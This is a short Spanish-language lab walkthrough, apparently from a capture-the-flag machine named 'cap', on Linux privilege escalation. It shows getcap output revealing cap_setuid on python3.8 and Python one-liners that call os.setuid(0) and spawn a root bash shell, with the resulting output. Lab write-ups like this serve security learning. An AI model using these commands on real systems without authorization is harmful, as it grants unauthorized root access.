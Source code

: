 

# Escalada de Privilegios
---
## Abusing `setuid` Capabilities - `cap_setuid`

Si listamos las `capabilities` presentes en el sistema, veremos que `pyhton` tiene asignado `cap_setuid`

~~~ bash
nathan@cap:/tmp$ getcap -r / 2>/dev/null
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
~~~

Esta capacidad nos permite cambiar el `uid` (User Identifier), que es el valor que identifica a los usuarios en sistemas Linux. Sabiendo esto, podemos asignarnos el `uid` del usuario `root`, y obtener una consola con privilegios elevados

~~~ bash
nathan@cap:/tmp$ python3 -c 'import os; os.setuid(0);os.system("whoami")'
root
~~~

## Root time

Sabiendo esto, nos convertiremos en el usuario `root` lanzando una `bash` cambiando el valor del `uid`, esto no ocurre con los grupos, solamente estamos cambiando el valor del usuario

~~~ bash
nathan@cap:~$ python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
root@cap:~\# id
uid=0(root) gid=1001(nathan) groups=1001(nathan)
~~~
